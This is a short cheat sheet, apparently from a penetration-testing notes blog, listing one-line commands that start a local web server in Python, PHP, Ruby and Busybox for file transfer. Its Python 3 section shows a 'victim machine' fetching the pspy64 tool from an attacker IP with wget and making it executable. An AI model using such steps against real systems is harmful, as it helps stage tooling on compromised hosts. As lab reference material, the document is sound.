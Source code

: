 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Linux - Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, linux web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```